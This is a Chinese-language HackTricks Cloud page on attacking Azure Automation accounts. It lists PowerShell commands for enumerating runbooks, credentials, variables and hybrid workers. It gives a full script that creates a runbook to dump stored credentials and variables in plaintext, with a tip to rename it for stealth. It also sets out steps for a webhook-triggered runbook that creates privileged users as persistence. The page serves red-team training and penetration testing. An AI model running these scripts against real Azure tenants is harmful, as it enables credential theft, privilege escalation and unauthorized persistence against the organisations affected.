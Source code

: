 # Az - 自动化帐户

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/azure/automation/overview) Azure Automation提供基于云的自动化、操作系统更新和配置服务，支持跨Azure和非Azure环境的一致管理。它包括流程自动化、配置管理、更新管理、共享功能和异构特性。

这些类似于Azure中的“**计划任务**”，可让您执行操作（动作或甚至脚本）来**管理**、检查和配置**Azure环境**。

### 运行账户

当使用**运行账户**时，它会创建一个带有自签名证书的Azure AD **应用程序**，创建一个**服务主体**并为**当前订阅**中的账户分配**Contributor**角色（很多权限）。\
Microsoft建议为自动化帐户使用**托管标识**。

{% hint style="warning" %}
这将于2023年9月30日**移除并更改为托管标识**。
{% endhint %}

## Runbooks & Jobs

**Runbooks**允许您**执行任意的PowerShell**代码。这可能被攻击者滥用，以窃取**附加主体**的权限（如果有的话）。\
在**Runbooks**的**代码**中，您也可能会发现**敏感信息**（如凭据）。

如果您可以**读取****作业**，请这样做，因为它们包含运行的输出（可能包含**敏感信息**）。

转到`自动化帐户` --> `<选择自动化帐户>` --> `Runbooks/Jobs/Hybrid worker groups/Watcher tasks/credentials/variables/certificates/connections`

### 混合工作者

Runbook可以在Azure内的**容器**中运行，也可以在**混合工作者**（非Azure机器）中运行。\
在VM上部署**Log Analytics Agent**以将其注册为混合工作者。\
混合工作者作业在Windows上以**SYSTEM**身份运行，在Linux上以**nxautomation**账户运行。\
每个混合工作者都注册在一个**混合工作者组**中。

因此，如果您可以选择在**Windows混合工作者**中运行**Runbook**，您将在外部机器上以**System**身份执行**任意命令**（很好的枢纽技术）。

## 损害状态配置（SC）

[来自文档：](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview) Azure Automation **状态配置**是一项Azure配置管理服务，允许您编写、管理和编译PowerShell Desired State Configuration（DSC）[配置](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations)，用于任何云中的节点或本地数据中心。该服务还导入[DSC资源](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources)，并将配置分配给目标节点，全部在云中完成。您可以通过在Azure门户中选择**配置管理**下的**状态配置（DSC）**来访问Azure Automation状态配置。

这些配置中可能包含**敏感信息**。

### RCE

可以滥用SC来在托管机器中运行任意脚本。

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## 枚举

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
{% endcode %}

### 创建一个运行簿

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### 利用运行簿从自动化帐户中提取凭据和变量

{% endcode %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
您可以通过修改现有的运行簿以及从 Web 控制台执行相同的操作。
{% endhint %}

### 设置自动化高特权用户创建的步骤

#### 1. 初始化自动化帐户
- **需要的操作：** 创建一个新的自动化帐户。
- **特定设置：** 确保启用了"创建 Azure Run As 帐户"。

#### 2. 导入和设置运行簿
- **来源：** 从[MicroBurst GitHub 仓库](https://github.com/NetSPI/MicroBurst)下载示例运行簿。
- **需要的操作：**
- 将运行簿导入自动化帐户。
- 发布运行簿以使其可执行。
- 附加一个 Webhook 到运行簿，以启用外部触发器。

#### 3. 配置 AzureAD 模块
- **需要的操作：** 将 AzureAD 模块添加到自动化帐户。
- **额外步骤：** 确保所有 Azure 自动化模块都更新到最新版本。

#### 4. 权限分配
- **要分配的角色：**
- 用户管理员
- 订阅所有者
- **目标：** 将这些角色分配给自动化帐户以获取必要的特权。

#### 5. 潜在访问丢失的意识
- **注意：** 请注意，配置此类自动化可能导致失去对订阅的控制。

#### 6. 触发用户创建
- 通过发送 POST 请求触发 Webhook 来创建新用户。
- 使用提供的 PowerShell 脚本，确保将`$uri`替换为实际的 Webhook URL，并更新`$AccountInfo`为所需的用户名和密码。
```powershell
$uri = "<YOUR_WEBHOOK_URL>"
$AccountInfo  = @(@{RequestBody=@{Username="<DESIRED_USERNAME>";Password="<DESIRED_PASSWORD>"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
## 参考资料

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

{% hint style="success" %}
学习并练习 AWS 黑客技能：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习 GCP 黑客技能：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

